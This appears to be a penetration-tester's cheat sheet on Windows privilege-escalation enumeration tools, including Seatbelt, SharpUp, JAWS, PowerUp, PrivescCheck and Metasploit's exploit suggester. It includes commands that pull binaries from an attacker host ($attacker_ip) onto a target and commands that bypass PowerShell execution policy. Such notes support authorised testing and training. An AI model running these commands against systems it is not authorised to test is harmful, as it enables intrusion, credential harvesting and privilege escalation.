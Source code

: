 # Automated scripts

{% embed url="https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md" %}

## `SeatBelt` | https://github.com/GhostPack/Seatbelt

> Seatbelt provides an insight into the following sections: _Antivirus, AppLocker Settings, ARP table and Adapter information, Classic and advanced audit policy settings, Autorun executables/scripts/programs, Browser(Chrome/Edge/Brave/Opera) Bookmarks, Browser History, AWS/Google/Azure/Bluemix Cloud credential files, All configured Office 365 endpoints which are synchronized by OneDrive, Credential Guard configuration, DNS cache entries, Dot Net versions, DPAPI master keys, Current environment %PATH$ folders, Current environment variables, Explicit Logon events (Event ID 4648) from the security event log, Explorer most recently used files, Recent Explorer “run” commands, FileZilla configuration files, Installed hotfixes, Installed, “Interesting” processes like any defensive products and admin tools, Internet settings including proxy configs and zones configuration, KeePass configuration files, Local Group Policy settings, Non-empty local groups, Local users, whether they’re active/disabled, Logon events (Event ID 4624), Windows logon sessions, Locates Living Off The Land Binaries and Scripts (LOLBAS) on the system and other information._

```bash
# import to windows machine
impacket-smbserver share $(pwd) -smb2support

# on windows
copy \\$attacker_ip\share\Seatbelt.exe
Seatbelt.exe -group=all
```

## `SharpUp` | https://github.com/GhostPack/SharpUp

> It detects the following: _Modifiable Services, Modifiable Binaries, AlwaysInstallElevated Registry Keys, Modifiable Folders in %PATH%, Modifiable Registry Autoruns, Special User Privileges if any and McAfee Sitelist.xml files_.

```bash
# attacker
python -m SimpleHTTPServer 80
# windows
powershell.exe iwr -uri $attacker_ip/SharpUp.exe -o C:\Temp\SharpUp.exe
SharpUp.
```

## `JAWS`

{% embed url="https://github.com/411Hall/JAWS" %}

> Surfing through one C# binary to another, we are finally attacked by JAWS. It is a PowerShell script for a change. As it was developed on PowerShell 2.0 it is possible to enumerate Windows 7 as well. It can work and detect the following: _Network Information (interfaces, arp, netstat), Firewall Status and Rules, Running Processes, Files and Folders with Full Control or Modify Access, Mapped Drives, Potentially Interesting Files, Unquoted Service Paths, Recent Documents, System Install Files, AlwaysInstallElevated Registry Key Check, Stored Credentials, Installed Applications, Potentially Vulnerable Services, MUICache Files, Scheduled Tasks_.

```powershell
# bypass execution policy
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
```

## `PowerUP`

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

> PowerUp is another PowerShell script that works on enumerating methods to elevate privileges on Windows System. It has an Invoke-AllChecks option that will represent any identified vulnerabilities with abuse functions as well. It is possible to export the result of the scan using -HTMLREPORT flag. PowerUp detects the following Privileges: _Token-Based Abuse, Services Enumeration and Abuse, DLL Hijacking, Registry Checks, etc_. In order to use the PowerUp, we need to transfer the script to the Target Machine using any method of your choice. Then bypass the Execution Policy in order to execute the script from PowerShell. Then use the Invoke-AllChecks in order to execute the PowerUp on the target machine. We can see it has already provided us with some Unquoted Path Files that can be used to elevate privilege.

```
powershell
powershell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

## `PowerLess`

{% embed url="https://github.com/gladiatx0r/Powerless" %}

> The problem with many legacy Windows machines is that the PowerShell is not accessible and the running of executable files is restricted. But we need to enumerate the possibilities for it as well to elevate privileges. Powerless comes to the rescue here. All you had to do is transfer the batch file to the target machine thought the method of your choice and then execute it. It will work and will provide data about the methods and directories that can be used to elevate privileges on the target machine.

## `PrivEscCheck`

{% embed url="https://github.com/itm4n/PrivescCheck" %}

> Quick enumeration. Suitable with AppLocker or any other Application whitelisting. It generates a report. To use it, we transfer the script file to the target machine with the method of your choosing. Then bypass the execution policy and run it.

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

## MetaSploit

### Windows Exploit Suggester

```bash
use post/multi/recon/local_exploit_suggester
set session 1
show options
# change options
exploit
```
